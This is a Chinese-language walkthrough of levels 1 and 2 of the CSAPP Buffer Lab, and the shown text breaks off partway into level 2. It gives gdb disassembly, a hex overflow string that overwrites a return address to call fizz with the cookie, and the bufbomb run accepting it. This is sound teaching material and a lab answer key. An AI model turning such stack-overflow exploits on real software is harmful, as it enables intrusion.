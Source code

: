 ### Level1

第二关是跳转到fizz函数并且使得参数 rdi的值是cookie的值

反汇编fizz得到

```txt
0x08048c42 <+0>:     push   %ebp
0x08048c43 <+1>:     mov    %esp,%ebp              # ebp = esp
0x08048c45 <+3>:     sub    $0x18,%esp
0x08048c48 <+6>:     mov    0x8(%ebp),%eax         # eax = (rsp+8)
0x08048c4b <+9>:     cmp    0x804d108,%eax
0x08048c51 <+15>:    jne    0x8048c79 <fizz+55>
```

所以整个栈空间调用过程如图所示

![20221111014944](https://raw.githubusercontent.com/learner-lu/picbed/master/20221111014944.png)

所以答案如下

```txt
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00
42 8c 04 08
00 00 00 00
b7 b2 05 10
```

```bash
root@da1811a84ddc:~/csapp/04Buffer Lab (IA32)/buflab-handout# ./hex2raw < 1.txt | ./bufbomb -u bovik
Userid: bovik
Cookie: 0x1005b2b7
Type string:Fizz!: You called fizz(0x1005b2b7)
VALID
NICE JOB!
```

### Level2

调用函数 bang, 同时需要修改全局变量 global_value 的值

思路类似,返回地址设为栈指针地址,直接修改全局变量的值

反汇编bang找到global_value的地址为 `0x804d100`

```bash
(gdb) disas bang
Dump of assembler code for function bang:
   0x08048c9d <+0>:     push   %ebp
   0x08048c9e <+1>:     mov    %esp,%ebp
   0x08048ca0 <+3>:     sub    $0x18,%esp
   0x08048ca3 <+6>:     mov    0x804d100,%eax
```

